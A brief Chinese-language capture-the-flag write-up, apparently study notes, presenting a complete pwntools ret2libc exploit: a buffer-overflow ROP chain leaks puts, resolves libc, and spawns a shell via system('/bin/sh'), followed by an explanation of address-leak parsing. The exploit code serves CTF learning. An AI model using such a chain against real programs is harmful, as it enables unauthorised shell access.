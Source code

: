  ```python
offset = 0x28
payload =b'a'*offset
payload=payload+p64(pop_rdi)
payload=payload+p64(puts_got)
payload=payload+p64(puts_plt)
payload=payload+p64(main)
r.sendlineafter(' me?',payload)
puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
r.sendlineafter('your name','aaa')
payload = b'a'*offset
payload=payload+p64(ret)
payload=payload+p64(pop_rdi)
payload=payload+p64(binsh)
payload=payload+p64(system)
r.sendlineafter('me?',payload)
r.interactive()
 ```
 之前由于不理解，一直用的是
 ```python
 u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
 ```
 这段代码的意思是，尝试接收输出，直到遇到换行符 \n，然后去掉这个换行符，将剩余部分补齐至 8 字节并解析为地址，但是在二进制漏洞利用中，程序输出可能包含​​非地址信息​​（例如，调试信息、其他函数的多余输出等）。如果这些额外数据被 recvuntil('\n')接收并包含在字符串中，u64尝试将无效数据解析为地址就会失败，导致后续计算全部错误
 这道题用这个便导致后面的计算全部有问题
 ```python
puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
 ```
 >r.recvuntil(b'\x7f'):持续接收数据，直到遇到字节 \x7f。在 ​​64 位 Linux 系统​​中，libc 地址的​​典型特征是高字节以 \x7f开头​​（例如，常见的地址形式是 0x7fxxxxxxxxxx）。这是一个非常显著的特征

 >[-6:]: 字节取最后接收到的 6 个字节。因为 \x7f是地址的最高位字节（在 Little-Endian 字节序下，它出现在地址数据的末尾），它之后的 6 个字节很可能就是地址的有效低位部分。

 >.ljust(8, b'\x00')：将这 6 个字节左对齐补齐到 8 字节，并用 \x00填充高位。这是因为 64 位地址是 8 字节的，而 u64函数需要 8 字节的数据来解析。

 方法二：
骗人的，没有第二种方法
![alt text](image-15.png)
网上的name是具有可执行权限的，而我查出来的是没有的
